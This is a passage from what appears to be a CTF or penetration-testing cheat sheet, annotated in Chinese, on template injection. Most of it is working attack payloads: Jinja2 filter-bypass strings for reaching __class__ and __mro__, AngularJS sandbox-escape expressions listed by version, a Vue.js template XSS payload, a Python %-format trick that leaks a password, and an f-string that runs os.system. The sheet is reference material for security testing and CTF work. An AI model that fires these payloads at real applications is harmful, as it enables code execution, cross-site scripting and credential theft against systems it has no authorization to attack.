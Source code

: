     - `{{''.__class__.__mro__[2]}}`
- 過濾`{{` or `}}`
  - 用`{%%}`
  - 執行結果往外傳
- 過濾`.`
  - `{{''.__class__}}`
    - `{{''['__class__']}}`
    - `{{''|attr('__class__')}}`
- 過濾Keyword
  - 用`\xff`形式去繞
  - `{{''["\x5f\x5fclass\x5f\x5f"]}}`
- 用request繞
  - `{{''.__class__}}`
    - `{{''[request.args.kaibro]}}&kaibro=__class__`

## AngularJS
- v1.6後移除Sandbox
- Payload
  - `{{ 7*7 }}` => 49
  - `{{ this }}`
  - `{{ this.toString() }}`
  - `{{ constructor.toString() }}`
  - `{{ constructor.constructor('alert(1)')() }}` 2.1 v1.0.1-v1.1.5
  - `{{ a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')() }}` 2.1 v1.0.1-v1.1.5
  - `{{ toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor)  }}` 2.3 v1.2.19-v1.2.23
  - `{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}` v1.2.24-v1.2.29
  - `{{'a'.constructor.prototype.charAt=[].join;$eval('x=alert(1)');}}` v1.3.20
  - `{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}` v1.4.0-v1.4.9
  - `{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(1)');}}` v1.5.0-v1.5.8
  - `{{ [].pop.constructor('alert(1)')() }}` 2.8 v1.6.0-1.6.6

## Vue.js
- `{{constructor.constructor('alert(1)')()}}`
- https://github.com/dotboris/vuejs-serverside-template-xss

## Python
- `%`
  - 輸入`%(passowrd)s`即可偷到密碼：
  ```python
  userdata = {"user" : "kaibro", "password" : "ggininder" }
  passwd  = raw_input("Password: ")
  if passwd != userdata["password"]:
    print ("Password " + passwd + " is wrong for user %(user)s") % userdata
  ```
- `f`
  - python 3.6
  - example
    - `a="gg"`
    - `b=f"{a} ininder"`
      - `>>> gg ininder`
  - example2
    - `f"{os.system('ls')}"`
